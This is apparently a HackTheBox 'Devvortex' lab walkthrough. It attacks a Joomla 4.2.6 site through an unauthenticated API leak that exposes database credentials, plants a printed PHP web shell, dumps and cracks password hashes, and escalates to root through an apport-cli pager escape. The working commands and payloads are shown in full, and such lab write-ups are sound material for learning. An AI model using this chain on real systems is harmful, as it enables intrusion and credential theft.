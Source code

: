 ```yaml
---
tags:
  - hack
  - linux
---
```


# HackTheBox: [Devvortex](https://app.hackthebox.com/machines/Devvortex)

> [!tip] Summary with Spoilers
> This was an exercise to use an information leak to gain a foothold on a common CMS, which can then be leveraged into an interactive shell, database access to retrieve password hashes, an easy-to-brute password for the admin's shell account, and then a simple privilege escalation to root.

A full `nmap` scan finds only ports 22 and 80. The web server redirects to `devvortex.htb`, so I add that to `/etc/hosts`.

A `ffuf` scan uncovered a `dev.devvortex.htb` vhost, so I add that as well.

The `dev` site is running Joomla version 4.2.6:

```xml
$ curl http://dev.devvortex.htb/administrator/manifests/files/joomla.xml
<?xml version="1.0" encoding="UTF-8"?>
<extension type="file" method="upgrade">
        <name>files_joomla</name>
        <author>Joomla! Project</author>
        <authorEmail>admin@joomla.org</authorEmail>
        <authorUrl>www.joomla.org</authorUrl>
        <copyright>(C) 2019 Open Source Matters, Inc.</copyright>
        <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
        <version>4.2.6</version>
        <creationDate>2022-12</creationDate>
        <description>FILES_JOOMLA_XML_DESCRIPTION</description>
[...]
```

This version has an [information leak](https://vulncheck.com/blog/joomla-for-rce) that exposes admin credentials:

```json
$ curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
```

The credentials above don't work for `ssh`, unfortunately.

But, they work for <http://dev.devvortex.htb/administrator/index.php>.

There's also a user `logan`:

```json
$ curl http://dev.devvortex.htb/api/index.php/v1/users?public=true
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/users?public=true"},"data":[{"type":"users","id":"649","attributes":{"id":649,"name":"lewis","username":"lewis","email":"lewis@devvortex.htb","block":0,"sendEmail":1,"registerDate":"2023-09-25 16:44:24","lastvisitDate":"2023-11-27 18:43:58","lastResetTime":null,"resetCount":0,"group_count":1,"group_names":"Super Users"}},{"type":"users","id":"650","attributes":{"id":650,"name":"logan paul","username":"logan","email":"logan@devvortex.htb","block":0,"sendEmail":0,"registerDate":"2023-09-26 19:15:42","lastvisitDate":null,"lastResetTime":null,"resetCount":0,"group_count":1,"group_names":"Registered"}}],"meta":{"total-pages":1}}
```

I added a PHP web shell to the `error.php` template:

![](_/htb-devvortex-20231127-2.png)

Web shell above is this: `if(isset($_GET['cmd'])) { system($_GET['cmd']); }`

Visiting `http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=id` works:

![](_/htb-devvortex-20231127-3.png)

From there I'm able to launch a URL-encoded `python3` reverse shell for an interactive cmdline. I connect to the `mysql` instance using the credientials I discovered via the information leak mentioned above, and I dump the `users` table to grab password hashes:

```sql
mysql> select * from sd4fg_users;
select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-11-27 18:43:58 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)
```

`john` finds the password quickly:

```console
$ john --wordlist=~/rockyou.txt ./hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequie[...]      (?)     
1g 0:00:00:04 DONE (2023-11-27 13:23) 0.2028g/s 284.7p/s 284.7c/s 284.7C/s winston..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

And that gives me the user flag:

```text
www-data@devvortex:~$ su - logan
su - logan
Password: tequie[...]

logan@devvortex:~$ cat user.txt
cat user.txt
87a817[...]
```

Checking for `sudo` privileges:

```text
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

`apport-cli` is a crash-reporting utility. This version is vulnerable to the pager-escape trick if run via `sudo`:

First I look for a crash report to use with the tool:

```text
logan@devvortex:~$ find / -name '*.crash' 2>/dev/null
/var/crash/_usr_bin_apport-cli.0.crash
```

with that I'll run `apport-cli` via `sudo` and wait for `less` to pause the output, and then I use `!sh` to spawn a root shell for the flag:

```console
logan@devvortex:~$ sudo /usr/bin/apport-cli /var/crash/_usr_bin_apport-cli.0.crash

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (30.2 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
[... lots of output, eventually less is triggered ...]
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
e49cc7[...]
```
